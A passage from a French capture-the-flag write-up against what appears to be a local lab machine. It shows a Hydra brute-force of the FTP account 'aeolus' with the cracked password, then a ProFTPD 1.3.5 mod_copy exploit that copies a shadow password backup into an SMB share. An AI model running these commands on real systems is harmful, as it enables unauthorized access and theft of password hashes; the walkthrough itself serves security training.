 ```shellsession
  #DisplayLogin         welcome.msg                                                                                    
  #DisplayChdir         .message                                                                                       
                                                                                                                       
  # Limit WRITE everywhere in the anonymous chroot                                                                     
  <Limit WRITE>                                                                                                        
    DenyAll                                                                                                            
  </Limit>                                                                                                             
</Anonymous>
```

Je suis parti sur un brute force du compte `aeolus` sur le serveur FTP. Et ça a marché :

```shellsession
$ hydra -l aeolus -P rockyou.txt ftp://192.168.56.113
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-20 14:00:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ftp://192.168.56.113:21/
[STATUS] 2727.00 tries/min, 2727 tries in 00:01h, 14341654 to do in 87:40h, 16 active
[STATUS] 2736.00 tries/min, 8208 tries in 00:03h, 14336173 to do in 87:20h, 16 active
[STATUS] 2743.57 tries/min, 19205 tries in 00:07h, 14325176 to do in 87:02h, 16 active
[21][ftp] host: 192.168.56.113   login: aeolus   password: sergioteamo
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-20 14:09:53
```

A noter que pendant ce temps j'ai énuméré le serveur `WebFS` sans succès. Il y avait peut de chances de trouver quelque chose car un serveur méconnu comme celui-ci a sans doute des fonctionalités très limitées.

A tout hasard j'ai cherché des vulnérabilités existantes pour la version de `ProFTPD` et je n'ai pas été déçu : [ProFTPd 1.3.5 - File Copy - Linux remote Exploit](https://www.exploit-db.com/exploits/36742)

Cette version a un module `mod_copy` qui permet de copier un fichier du serveur vers un autre emplacement local et visiblement sans grandes vérifications.

Je vais donc copier la sauvegarde du fichier `shadow` vers le path exposé par le SMB :

```shellsession
$ ncat 192.168.56.113 21 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.113:21.
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.56.113]
site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
site cpto /home/aeolus/share/yolo.txt
250 Copy successful
QUIT
221 Goodbye.
```
